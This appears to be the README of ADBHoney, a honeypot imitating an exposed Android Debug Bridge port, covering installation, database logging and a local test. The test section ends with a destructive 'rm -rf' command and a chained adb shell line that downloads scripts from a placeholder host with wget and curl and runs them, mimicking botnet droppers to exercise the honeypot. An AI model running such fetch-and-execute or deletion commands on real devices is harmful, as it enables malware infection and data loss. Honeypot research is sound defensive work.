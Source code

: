 # Installation guide (on Ubuntu 16.04):

1) (Optional) Create user *adbh*  (not root user) and switch to it
``` $ sudo su - adbh ```
2) Create virtual envirionment (Python 2.7.\*) with name *adbh_env*
``` $ virtualenv --python=python2 adbh_env ```
``` $ cd adbh_env/ ```
3) Activate the envirionment
``` $ source ./bin/activate ```
``` $ cd .. ```
4) Create folder *adbh_project* inside *adbh_env*
``` $ mkdir adbh_project ```
``` $ cd adbh_project/ ```
5) Clone the project from the repository
``` $ git https://github.com/venetay/ADBHoney.git . ```
6) Install requitements
	(Dependance: sudo apt-get install libmysqlclient-dev python-dev)
``` $ pip install -r requirements.txt ```
7) Start
``` $ python adbhoney.py ```

============================================================

## MySQL Configuration

First create an empty database named 'adbhoney'.
```
$ mysql -u root -p
CREATE DATABASE adbhoney;
```

Create a adbhoney user account for the database and grant access privileges:

**All Privileges:**

```
GRANT ALL ON adbhoney.* TO 'adbhoney'@'localhost' IDENTIFIED BY 'PASSWORD HERE';

```

**Restricted Privileges:**

Alternatively you can grant the adbhoney account with less privileges. The following command grants the account with the
bare minimum required for the output logging to function:

```
GRANT INSERT, SELECT, UPDATE ON adbhoney.* TO 'adbhoney'@'localhost' IDENTIFIED BY 'PASSWORD HERE';
```

Apply the privilege settings and exit mysql.
```
FLUSH PRIVILEGES;
exit
```

Next, log into the MySQL database using the adbhoney account to verify proper access privileges and load the database schema provided in the docs/sql/ directory:
```
$ cd adbhoney/docs/sql/
$ mysql -u adbhoney -p
USE adbhoney;
source mysql.sql;
exit
```

# MySQL plugin uses geolocation.
1) Download GeoLite2-ASN.mmdb and GeoLite2-City.mmdb
``` https://dev.maxmind.com/geoip/geoip2/geolite2/ ```
2) Set the right location of the databases used for geolocation in the config file


==================================================


## SQLite3 logging module

Logging to SQLite3 database. To init the database, use the script
docs/sql/sqlite3.sql:
     sqlite3 <db_file> < docs/sql/sqlite3.sql


===================================================
# Start and test example

* test adb commands

```
sudo apt install adb
// sudo apt install android-tools-adb
```

---------------------------------------------------------------------

terminal1:
``` .../ADBHoney$ python adbhoney.py ```

---------------------------------------------------------------------

terminal2:
``` $ nmap 127.0.0.1 ```

```
$ adb connect 127.0.0.1
$ adb connect 127.0.0.1:5555
//* daemon not running. starting it now on port 5037 *
//* daemon started successfully *
//connected to 127.0.0.1:5555
```

```
$ adb devices
//List of devices attached
//emulator-5554	device
//127.0.0.1:5555	device
```

```
$ adb -s 127.0.0.1:5555  push -p filename /sdcard/
//Transferring: 5078064/5078064 (100%)
//4805 KB/s (5078064 bytes in 1.031s)
```

``` $ adb -s 127.0.0.1:5555 shell ```

``` $ adb -s 127.0.0.1:5555 shell "rm -rf /data/local/tmp/*" ```

```
$ adb -s 127.0.0.1:5555 shell "cd /data/local/tmp;wget http://yyy.yyy.yyy.yyy/br -O- >br;sh br;busybox wget http://yyy.yyy.yyy.yyy/r -O- >r;sh r;curl http://yyy.yyy.yyy.yyy/c >c;sh c;busybox curl http://yyy.yyy.yyy.yyy/bc >bc;sh bc"
```
